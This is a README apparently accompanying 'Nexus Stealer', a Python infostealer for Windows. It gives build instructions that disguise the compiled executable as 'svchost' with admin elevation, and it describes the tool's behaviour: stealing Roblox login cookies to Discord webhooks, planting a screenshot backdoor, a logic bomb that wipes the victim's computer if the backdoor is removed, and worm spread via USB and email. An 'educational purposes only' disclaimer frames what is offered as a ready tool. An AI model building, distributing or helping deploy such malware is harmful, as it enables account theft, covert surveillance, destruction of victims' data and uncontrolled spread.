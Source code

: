 # NEXUS STEALER *V1.0.0*

**Disclaimer**: This code is provided for **educational purposes only**. I do not endorse or encourage any misuse, illegal activities, or damage caused by this code. By using this script, you agree that **you are solely responsible** for your actions. I bears no liability for any consequences arising from the use of this tool.

---

## Updates
**Version :** *V1.0.0*

- Official Public Release

---

## Installation and customization

Change the :
```
COOKIE_WEBHOOK_URLS = ["1", "1_backup"]
SCREENSHOT_WEBHOOK_URLS = ["2", "2_backup"]
```
By 4 **DIFFERENT** discord webhooks

Install the dependencies :
```
pip install psutil requests pywin32 pyautogui cryptography netifaces
```
Convert to .exe :
```
pyinstaller --onefile --noconsole --hidden-import psutil --hidden-import requests --hidden-import pywin32 --hidden-import pyautogui --hidden-import cryptography --hidden-import netifaces --hidden-import win32crypt --hidden-import win32gui --hidden-import win32con --hidden-import win32process --hidden-import win32security --hidden-import win32api --hidden-import win32file --uac-admin --name svchost NexusStealer.py
```

---

## Explanation

When executed on a machine, the script will wait for a **Roblox Related** application to be oppened. He will then search the whole computer data and browser data in search of the roblox login cookie (ROBLOSECURITY). Once found, it will send the cookie to the designed webhook, leave behind him a backdoor that will send a screenshot of the targeted user desktop **every 30 Minutes** and leave another logic bomb that will continuisly check to see if the backdoor has been deleted, if yes, it will wipe the whole user computer from top to bottom. 

***DO NOT RUN THIS SCRIPT ON YOUR OWN MACHINE OR ON SOMEONE ELSE MACHINE WITHOUT THEIR CONSENT.***
**Ive implemented a WORM in the script, meaning that it will spread in the network through usb and emails. Please be cautious of the uses of this script.**
